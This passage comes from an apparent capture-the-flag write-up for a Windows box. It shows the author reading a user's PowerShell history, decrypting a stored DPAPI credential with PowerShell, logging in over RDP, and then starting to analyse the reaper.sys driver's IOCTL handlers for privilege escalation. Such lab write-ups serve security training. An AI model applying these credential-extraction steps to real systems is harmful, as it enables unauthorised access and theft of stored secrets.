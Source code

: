 ```
PS C:\ProgramData> $ type C:\Users\keysvc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
$credential = Get-Credential
$credential.Password | Convert-FromSecureString 
$credential.Password | ConvertFrom-SecureString | Set-Content automation.txt

PS C:\ProgramData> $ cd C:\users\keysvc

PS C:\users\keysvc> $ type automation.txt
01000000d08c9ddf0115d1118c7a00c04fc297eb01000000341bbb10d13d3e44aed494db4...
```

so, it seems the keysvc user stored some automation credential into the home folder in a file named automation.txt, this is nice, because we have a shell as keysvc so we can use the user’s own encryption keys to decrypt the stored credential

```
PS C:\users\keysvc> $ $secureObject = ConvertTo-SecureString -String 01000000d08c9ddf0115d1118c7a00c04fc297eb0...
PS C:\users\keysvc> $ $decrypted = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secureObject)
PS C:\users\keysvc> $ $decrypted = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($decrypted)
PS C:\users\keysvc> $ $decrypted
<redacted>
```

and we got the password :-) remembering the open RDP port we will instantly try if this user is allowed to connect by RDP.

`xfreerdp /v:$box /u:keysvc /p:<redacted> /size:1400x1050`

and yes it works, we now have a nice working environment for the next step, which might be something related to the reaper.sys driver we found in ``c:\driver``. If the software quality of the developers working on this box is the same, we might be lucky to find another bug in this driver’s code which will aid in escalating privileges.

# privilege escalation
Now finally having a RDP session, we can see that we are sitting on a Windows 2022 server as user keysvc. our next steps will be to analyse the driver and build us a debug environment matching the box as close as possible, so we can debug the driver locally with a kernel debugger.

## analysing the reaper.sys driver

The driver is pretty small, so we can skip all install/setup/loading code and focus on the driver functions. soon we find the handler function processing 3 different IOCTLs

```c
#define IOCTL_ALLOCATE      0x80002003
#define IOCTL_FREE          0x80002007
#define IOCTL_COPY_SRC_DST  0x8000200B
```
